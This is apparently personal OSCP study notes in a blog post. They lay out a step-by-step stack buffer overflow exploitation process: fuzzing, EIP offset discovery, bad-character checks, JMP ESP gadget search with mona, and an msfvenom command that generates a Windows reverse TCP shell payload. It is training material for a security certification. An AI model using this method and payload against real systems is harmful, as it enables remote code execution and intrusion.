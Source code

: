 ```yaml
---
layout: single
title:  "OSCP Prep - Stack Buffer Overflow Process"
date:   2020-08-22
excerpt: "This is my stack buffer overflow process made simple."
categories:
  - oscp prep
  - infosec
tags:
  - buffer overflow
  - exploit development 
---
```


## Basic Assembly

* POP -> Pops the top of the stack into the EIP register.

## The General Process

1. Find all inputs to the application.
2. Fuzz each input with garbage data in a loop that incrementally sends more bytes to get the application to crash.
3. Find the offset where the application crashes. Do this by creating a pattern with either pwntools or metasploit's `pattern_create`.
4. Copy the value from EIP which indicates where the application crashed and calculate the offset with either pwntools or metasploit's `pattern_offset`.
5. Take control over EIP by using 4 bytes at the offset returned by `pattern_offset`.
6. See if you can get more space for your shellcode by adding more bytes to your buffer and reproducing the same crash. The more space you have for your shellcode, the better off you will be.
7. Check for bad characters from `0x00` - `0xff`. You can right-click on ESP and select *Follow in Dump* to show the input buffer of hex characters in memory. Check how buffer of bad characters got modified.
8. Encode your shellcode so that it doesn't contain any bad characters.
9. Search for a JMP ESP gadget. This gadget must comply with the following criteria:
  * It does not come from a library compiled with ASLR support.
  * The address does not contain any bad characters.
  * ADVANCED TIP: If the module was compiled with DEP support, the JMP ESP needs to be located in the .text code segment of the module with both Read (R) and Executable (E) permissions.
10. You will need the opcode for the gadget. You should be able to achieve so with pwntools or metasploit's `nasm_shell`.
11. Use the address of the new found gadget to redirect execution back into your shellcode. Generally speaking, this works by JMP'ing ESP to your shellcode since you previously overflowed ESP with your shellcode.
  * Make sure that the EIP address is in little endian so that the CPU can interpret the opcode correctly!
12. Generate the shellcode with msfvenom.
  * Certain shellcode encodings like shikata_ga_nai require some NOP padding to function because they require some additional space to extract itself, so don't forget to add the NOP sled!
  * The default exit behavior of msfvenom shellcode is ExitProcess. If you want the process to stay alive after you lose your shell, you want to set the exit function to ExitThread.
13. Setup a netcat listener and pwn!

## Starting windows services

```bat
services.msc
```

## Bad Characters

```python
badchars = (b"\x00"
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

## Using mona.py to detect bad characters

Generate a bytearray

```
!mona bytearray
!mona compare -f bytearray.txt -a <address where badcharacter buffer starts>
```

## Create a cyclic pattern

```bash
pwn cyclic 800
```

## Searching for JMP ESP gadgets on Windows

### Show modules

```
!mona modules
```

### Find opcodes

Find `JMP ESP`

```
!mona find -s "\xff\xe4" -m "MODULE NAME"
```

## Get assembly code

```
pwn asm 'jmp esp; jmp eax'
```

## Generating shellcode

**Windows 32 bit reverse tcp shell without bad characters**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=443 EXITFUNC=thread -f python -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

## Extra

* Debug stepping through polymorphic shellcode seems to interfere with its unraveling. If you hit the `INT` instruction, you are best off hitting `continue` on the debugger to make sure `shikata_ga_nai` decodes itself smoothly decodes itself smoothly.
* Using the binary search theory can help with finding bad characters.

